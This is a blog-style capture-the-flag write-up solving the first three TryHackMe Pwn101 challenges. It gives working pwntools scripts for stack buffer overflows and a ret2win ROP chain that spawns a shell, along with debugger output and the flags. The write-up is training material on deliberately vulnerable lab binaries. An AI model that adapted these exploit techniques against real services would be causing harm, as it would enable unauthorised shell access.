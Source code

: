 ```yaml
---
title: "[THM] Pwn101 Writeup"
cover: >-
    https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/Blog_cover%20(3)-min.jpg
categories:
    - [TryHackMe]
    - [CTF]
tags:
    - Pwn
    - Hacking
    - CTF
abbrlink: 83b7f1b
date: 2024-07-20 13:53:43
---
```


# Challenge 1 - pwn101

First, we use IDA to decompile the binary it gave us. We can see that the program declare a 60 bytes array for char v4. And the winnning condition is to use v4 to overflow and cover the value of v5, which is 1337 initially. Since it didn't ask us to make v5 to a specific value, we can just make sure it not equal to 1337.

![IDA Decompiled Code](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240720141210657.png)

To do that, I use a Python script to do it.

```python
from pwn import *

r = remote("10.10.153.228", 9001)

r.recvuntil("Type the required ingredients to make briyani:")
r.sendline("A"*61)
r.interactive()
```

![Flag](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240720141712693.png)

```
THM{7h4t's_4n_3zy_oveRflowwwww}
```

# Challenge 2 - pwn102

First step, IDA decompile the binary.

![IDA Decompiled Code](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240720144645154.png)

According to the code, we can know that the char v4 is a 104 bytes array, and the winning condition is to let v5 equals to `0xC0FF330000C0D3`. So we can simply overflow the v4 to cover v5. The exploit is as follow.

```python
from pwn import *

payload = b"A" * 104 + p64(0xC0FF330000C0D3)


r = remote("10.10.153.228", 9002)
r.recvuntil("Am I right?")
r.sendline(payload)
```

By running this script, we can get the shell to cat the flag out.

![Flag](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240720144940194.png)

```
THM{y3s_1_n33D_C0ff33_to_C0d3_<3}
```

# Challenge 3 - pwn103

First, I use `checksec` to check the binary protection.

```bash
┌──(kali㉿kali)-[~/CTF/THM/pwn103]
└─$ pwn checksec pwn
[*] '/home/kali/CTF/THM/pwn103/pwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Next, I use IDA to decompile the binary so that I can check where is the vulnerability easier. If you check the decompiled code throughly, you will find out the vuln is in the `general()` function, which is the 3rd choice in the menu (You can also find the vuln if you run the binary and test each choice on the menu). The code of the `general()` function is as follows.

```c
int general()
{
  const char **v0; // rdx
  char s1[32]; // [rsp+0h] [rbp-20h] BYREF

  puts(asc_4023AA);
  puts(aJopraveenHello);
  puts(aJopraveenHopeY);
  puts(aJopraveenYouFo);
  printf("------[pwner]: ");
  __isoc99_scanf("%s", s1);
  if ( strcmp(s1, "yes") )
    return puts(aTryHarder);
  puts(aJopraveenGg);
  return main((int)aJopraveenGg, (const char **)"yes", v0);
}
```

We can notice that the vuln is at the `scanf()`, which allows us to cover the value of `s1`. Furthermore, I found a suspicious function in gdb.

![GDB](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240725152515328.png)

The `admins_only()` function looks interesting. After checking the decompiled code in IDA, I found that it turns out to be dangerous.

```c
int admins_only()
{
  puts(asc_403267);
  puts(aWelcomeAdmin);
  return system("/bin/sh");
}
```

It open the shell for us! The thing is, how can we access this function? Until now, we can probably know that this is a ret2win problem. We need to cover the return address to gain access to the dangerous function. So I use `cyclic 100` to create the pattern to know the offset of the padding.

![Find the offset by cyclic](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240725153412668.png)

Then by using the `cyclic -l faaaaaaa` to look up the offset value, we get the offset is 40.

```bash
pwndbg> cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

Next step is to find the address of `admins_only()`. Since the binary has no PIE, the address will be always fixed. To get the address, we can simply type in `print &admins_only` in gdb.

```bash
pwndbg> print &admins_only
$1 = (<text variable, no debug info> *) 0x401554 <admins_only>
```

Now, we know that the address of `admins_only()` is `0x401554`, so we can start writing the exploit!

```python
from pwn import *

offset = 40
admin_only_address = 0x401554
padding = b"A" * offset

payload = padding + p64(admin_only_address)

p = remote("10.10.194.195", 9003)
p.sendline(b"3")
p.sendline(payload)
p.interactive()
```

But when we execute the script, it won't give us the shell. After watching this video, I understand that there's a MOVAPS issue.

<div style="position: relative; width: 100%; height: 0; padding-bottom: 56.25%;">
    <iframe style="position: absolute; top: 0; left: 0; width: 100%; height: 100%;" src="https://www.youtube.com/embed/-VUtXwDm5yQ" frameborder="0" allowfullscreen></iframe>
</div>
<br/>
So how do we solve the MOVAPS issue? [This articel](https://ropemporium.com/guide.html) tells us the answer.

> **The MOVAPS issue**
> If you're segfaulting on a `movaps` instruction in `buffered_vfprintf()` or `do_system()` in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as `printf()` or `system()`. Some versions of GLIBC uses `movaps` instructions to move data onto the stack in certain functions. The 64 bit calling convention requires the stack to be 16-byte aligned before a `call` instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. `movaps` triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra `ret` before returning into a function or return further into a function to skip a `push` instruction.

Here I use the first method, which is add a ret gadget in my ROP (Return-Oriented Programming) chain. To find the ret gadget, we can type `layout asm` in gdb.

![ret gadget](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240725162429324.png)

Now we can write the exploit with this solution to the MOVAPS issue.

```python
from pwn import *

offset = 40
admin_only_address = 0x401554
padding = b"A" * offset
ret_gadget = 0x4016E0  # Solve the MOVAPS issue

payload = padding + p64(ret_gadget) + p64(admin_only_address)

p = remote("10.10.194.195", 9003)
p.sendline(b"3")
p.sendline(payload)
p.interactive()
```

By running the script, we can get the shell and cat out the flag.txt!

![Pwned!](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240725163326781.png)

```
THM{w3lC0m3_4Dm1N}
```
